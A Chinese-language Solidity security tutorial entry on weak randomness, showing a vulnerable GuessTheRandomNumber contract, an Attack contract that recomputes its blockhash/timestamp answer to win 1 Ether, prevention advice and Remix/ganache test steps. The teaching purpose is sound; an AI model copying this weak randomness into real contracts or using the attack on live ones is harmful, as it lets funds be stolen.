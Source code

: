 # 71.Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。


注意：无法在Remix中使用blockhash，因此请使用ganache-cli
```solidity
npm i -g ganache-cli
ganache-cli
```
在Remix中切换环境到Web3提供程序。


GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1. 因为无法在Remix中使用blockhash，因此切换至ganache-cli
![71-1.jpg](img/71-1.jpg)
2. 部署GuessTheRandomNumber并放入1 Ether
![71-2.jpg](img/71-2.jpg)
3. 部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
![71-3.jpg](img/71-3.jpg)